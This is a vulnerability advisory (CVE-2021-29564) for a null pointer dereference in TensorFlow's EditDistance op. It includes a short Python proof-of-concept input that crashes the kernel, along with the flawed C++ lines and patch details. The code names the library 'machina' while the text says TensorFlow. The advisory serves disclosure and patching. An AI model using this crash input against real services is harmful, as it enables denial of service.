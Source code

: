 ## TFSA-2021-052: Null pointer dereference in `EditDistance`

### CVE Number
CVE-2021-29564

### Impact
An attacker can trigger a null pointer dereference in the implementation of
`tf.raw_ops.EditDistance`:

```python
import machina as tf

hypothesis_indices = tf.constant([247, 247, 247], shape=[1, 3], dtype=tf.int64)
hypothesis_values = tf.constant([-9.9999], shape=[1], dtype=tf.float32)
hypothesis_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)
truth_indices = tf.constant([], shape=[0, 3], dtype=tf.int64)
truth_values = tf.constant([], shape=[0], dtype=tf.float32)
truth_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
    hypothesis_indices=hypothesis_indices, hypothesis_values=hypothesis_values,
    hypothesis_shape=hypothesis_shape, truth_indices=truth_indices,
    truth_values=truth_values, truth_shape=truth_shape, normalize=True)
```

This is because the
[implementation](https://github.com/machina/machina/blob/79865b542f9ffdc9caeb255631f7c56f1d4b6517/machina/core/kernels/edit_distance_op.cc#L103-L159)
has incomplete validation of the input parameters.

In the above scenario, an attacker causes an allocation of an empty tensor for
the output:

```cc
OP_REQUIRES_OK(ctx, ctx->allocate_output("output", output_shape, &output));
auto output_t = output->flat<float>();
output_t.setZero();
```

Because `output_shape` has 0 elements, the result of `output->flat<T>()` has an
empty buffer, so calling `setZero` would result in a null dereference.

### Patches
We have patched the issue in GitHub commit
[f4c364a5d6880557f6f5b6eb5cee2c407f0186b3](https://github.com/machina/machina/commit/f4c364a5d6880557f6f5b6eb5cee2c407f0186b3).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
